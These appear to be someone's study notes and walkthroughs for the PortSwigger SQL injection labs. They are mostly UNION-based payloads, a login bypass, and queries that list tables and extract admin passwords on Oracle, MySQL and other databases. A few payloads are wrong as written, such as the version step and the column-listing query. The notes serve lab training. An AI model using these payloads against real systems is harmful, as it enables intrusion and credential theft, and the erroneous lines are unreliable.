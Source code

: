 # SQL Injection Notes

This will be the start of the SQL injection notes from the portswigger web security academy. I will just be listing walkthroughs and methodologies from the labs. Read the material for background information or watch.

Tips for exam: If 'Advanced Search' is used privilege escalation will be easy. 

### Cheat sheet
[cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Injection points to consider:

- search parameters
- cookie values
- url parameters

### UNION Methodology

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
Oracle:
' UNION SELECT NULL FROM DUAL--
MySQl or Microsoft:
' UNION SELECT NULL#
' UNION SELECT NULL,NULL#
Check if text in columns:
' UNION SELECT 'abc',NULL--
' UNION SELECT NULL,'abc'--
```

## Checking for tables

```
Oracle:
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft:
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL:
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL:
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

# Labs walkthrough sections

## UNIONS

### SQLi vulnerability in WHERE clause allowing retrieval of hidden data

When selecting a refined search category like `Gifts` one can see the value in the URL set as Gifts. Adding the below  payload let's us view all products even unreleased ones.  

```
' or 1=1--
```

![image](https://github.com/user-attachments/assets/2d0bf1ab-78c8-480f-8f95-c2906d9fd7fe)

### SQL injection vulnerability allowing login bypass

Go to `my account` and enter arbirtraty login values with burp intercept on, then change the url value with: `administrator'--`

![image](https://github.com/user-attachments/assets/8ed32490-050b-4102-bfd7-5b397c7eecb6)


### SQL injection attack, querying the database type and version on Oracle

So first methodology for UNION attacks, in Oracle based on the Cheatsheet we see that every Oracle db needs a table to select from. We will always need a table to call to in Oracle, so in this case let's start with adding FROM dual in our query at the end. All of these injections are placed in the same as above, in the categories filter.

So it would look like

```
' UNION SELECT NULL FROM DUAL--
```

Just add Null's until we identify the length of columns. We find that 2 no longer gives us internal server errors. So now we are going to check for text by just adding random strings to the columns where the NULLS are like: "abc" 

```
' UNION SELECT 'abc', NULL FROM DUAL--
' UNION SELECT 'abc', 'abc' FROM DUAL--
```

We see both columns contain text values, so now the end challenge is to display the version of Oracle. Which you call by doing `SELECT BANNER FROM v$version`

```
' UNION SELECT BANNER, NULL FROM v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft

Similar methodology steps as the above UNION for Oracle but with # as the comment, we stop at 2 but add additional NULLs if you still get 500 internal errors

```
' UNION SELECT NULL#
' UNION SELECT NULL,NULL#
```

To check for text in columns

```
' UNION SELECT 'abc',NULL#
' UNION SELECT NULL,'abc'#
```


To solve just add @@version to the columns above

```
' UNION SELECT NULL,NULL#
```

### SQL injection attack, listing the database contents on non-Oracle databases

Follow the same UNION strategy as above

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT 'abc',NULL--
' UNION SELECT NULL,'abc'--
```

Then we need to pull data on the tables in the db

```
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Use the table you can deduce contains user creds

```
' UNION SELECT column_name, NULL FROM information_schema.tables WHERE table_name='users_abcdef'--
```

Then pull out the administrator pass with this:

```
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

### SQL injection attack, listing the database contents on Oracle

Follow same UNION steps, we are going to assume 2 columns from here instead of repeating the same as above

```
' UNION SELECT 'abc', 'abc' FROM DUAL--
Retrieve tables:
' UNION SELECT table_name, NULL FROM all_tables--
Find columns on table:
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='users_abcdef'--
Get Admins password:
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

### SQL injection UNION attack, determining the number of columns returned by the query

We've gone over this already many times

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
```

### SQL injection UNION attack, finding a column containing text

```
' UNION SELECT 'abc',NULL--
' UNION SELECT NULL,'abc'--
```
